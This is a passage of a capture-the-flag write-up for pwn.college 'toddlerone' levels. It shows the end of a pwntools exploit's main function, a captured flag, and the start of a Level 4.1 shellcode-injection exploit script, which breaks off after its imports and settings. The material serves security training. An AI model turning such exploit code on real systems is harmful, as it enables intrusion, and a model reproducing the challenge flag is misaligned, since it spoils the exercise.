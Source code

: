 ```python
def main():
    try:
        target = launch()
        payload = construct_payload(target)

        attack(target, payload)
    except Exception as e:
        log.exception(f"An error occurred in main: {e}")


if __name__ == "__main__":
    main()
```

## Flag

Flag: `pwn.college{ECpb0UATZ-UymShuFolh7qzxgrx.0VNyMDL5cTNxgzW}`

# Level 4.1

## Information

- Category: Pwn

## Description

> Write a full exploit involving injecting shellcode, reverse engineering, and a method of tricking the challenge into executing your payload.

## Write-up

参见 [Level 4.0](#level-40)。

## Exploit

```python
#!/usr/bin/python3

from pwn import (
    ELF,
    asm,
    context,
    gdb,
    log,
    os,
    p64,
    process,
    remote,
    shellcraft,
)

context(log_level="debug", terminal="kitty")

FILE = "./toddlerone-level-4-1"
HOST, PORT = "localhost", 1337

gdbscript = """
c
"""

backdoor = b"REPEAT "
```